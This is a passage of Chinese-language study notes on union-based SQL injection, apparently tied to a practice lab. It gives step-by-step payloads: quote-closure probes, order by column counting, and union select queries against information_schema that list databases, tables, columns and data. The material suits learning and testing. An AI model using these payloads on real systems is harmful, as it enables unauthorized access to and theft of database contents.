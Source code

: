 >会把提交的键值对自动填入**Body**里面
>
>然后这里有个不知道是不是hackbar的bug，我们需要改 **s**ubmit=Submit 中的加粗的**小写s**改为**大写S**，才可以使用
>
>然后就可以到**uname**，**passwd**注入sql语句



## SQL（联合）注入基本流程

`?id=1 and 1=1`  `?id=1' and 1=1`  `?id=1') and 1=1`  `?id=1" and 1=1`  `?id=1") and 1=1` 

> 1.判断有无闭合 and 1=1 && and 1=2 //结果和第一个一样说明需要闭合，反之无闭合 有闭合则需要用到 -- - ( --+ , -- s，--# )闭合
>
> 2.猜解字段 order by 10 //采用二分法 
>
> 3.判断数据回显位置 id=-1 union select 1，2，3，4，5.... //参数等号后面加-表示不显示当前数据
>
> 4.获取当前数据库名、用户、版本 union select version(),database(),user()...... 
>
> 5.获取全部数据库名

```sql
union select 1,2,(select group_concat(schema_name)from information_schema.schemata)

union select 1,2,database()     ---显示当前数据库
```

> 6.获取表名

```sql
union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema='库名')
```

> 7.获取字段名

```sql
union select 1,2,(select group_concat(column_name)from information_schema.columns where table_name='表名' and table_schema='库名')
```

> 8.获取数据 union select 1,2,(select group_concat(字段1，字段2)from 库名.表名

```sql
查 库：select schema_name from information_schema.schema

查 表：select table_name from information_schema.tables where table_schema='库名'

查 列：select column_name from information_schema.columns where table_name='表名'

查数据： select 列名 from 库名.表名
```



## SQL报错注入
